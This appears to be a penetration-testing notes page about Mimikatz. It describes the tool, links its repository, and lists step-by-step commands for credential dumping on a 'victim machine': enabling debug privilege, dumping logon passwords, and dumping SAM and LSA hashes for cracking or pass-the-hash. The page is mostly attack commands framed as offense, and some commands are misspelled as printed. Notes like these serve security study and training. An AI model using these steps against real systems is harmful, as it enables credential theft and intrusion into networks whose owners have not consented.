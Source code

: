 # Mimikatz

## Github Link

* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[https://github.com/gentilkiwi/mimikatz/wiki/](https://github.com/gentilkiwi/mimikatz/wiki/)

## What is Mimikatz

* tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
* dump credentials stored in memory
* cred dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket, etc

## Credential Dumping with Mimikatz

### Step 1: Get Mimikatz on the Victim Machine

* use any exfiltration method
* advanced techniques may be required

### Step 2: Run Mimikatz and Command to Allow Debugging Restricted Process

```bash
privelege::debug
```

### Step 3: Compromise User Hashes

```bash
sekurlsa::logonpassword
```

* can also get wdigest \(which stores password in clear text\) but we need to turn feature on with tool\)

### Step 4: Try to Dump SAM

```bash
lsadump::sam
lsadump::sam /patch
```

### Step 5: Get User and NTLM Another Way \(Crack Them and Pass the Hash\)

```bash
lsadump::lsa /patch
```

